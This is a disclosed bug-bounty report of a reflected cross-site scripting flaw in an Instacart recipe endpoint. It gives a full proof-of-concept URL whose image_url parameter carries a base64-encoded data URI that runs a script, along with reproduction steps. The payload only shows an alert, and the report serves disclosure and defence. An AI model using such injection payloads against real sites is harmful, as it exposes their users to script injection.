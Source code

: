 # XSS at in instacart.com/store/partner_recipe

## Report Details
- **Report ID**: 227809
- **URL**: https://hackerone.com/reports/227809
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-05-12T00:41:11.892Z
- **Disclosed**: 2017-05-30T17:24:23.067Z

## Reporter
- **Username**: ak1t4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
### Summary

Hi team, i found that this endpoint -> https://www.instacart.com/store/partner_recipe? at param ```image_url``` is vulnerable to XSS

#### Reproduction Steps & PoC

1)Go to ```https://www.instacart.com/store/partner_recipe?recipe_url=http://&partner_name=&ingredients[]=apples&ingredients[]=butter&ingredients[]=Splenda+Brown+Sugar+Blend&ingredients[]=cinnamon&ingredients[]=nutmeg&title="Barb%27s+Fried+Apples+-Diabetic-Low+Fat&description=&image_url=data%3atext%2fhtml%3bbase64%2cPHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4 ```
2) Right Click on link "See Image" or open image in new window
3) You see the alert popup 

{F183896}
{F183895}

**Vulnerable Enpoint :** ```https://www.instacart.com/store/partner_recipe? ```
**Vulnerable Param:** ``` image_url```
**Vulnerable Payload:** ```data%3atext%2fhtml%3bbase64%2cPHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4```

**Tested on Browserss**: Latest **Firefox** & **Chrome**

Let me know if more info needed or anything else,

king regards,
@ak1t4




## Attachments
- Captura_de_pantalla_2017-05-11_a_las_21.32.38.png
- Captura_de_pantalla_2017-05-11_a_las_21.32.33.png
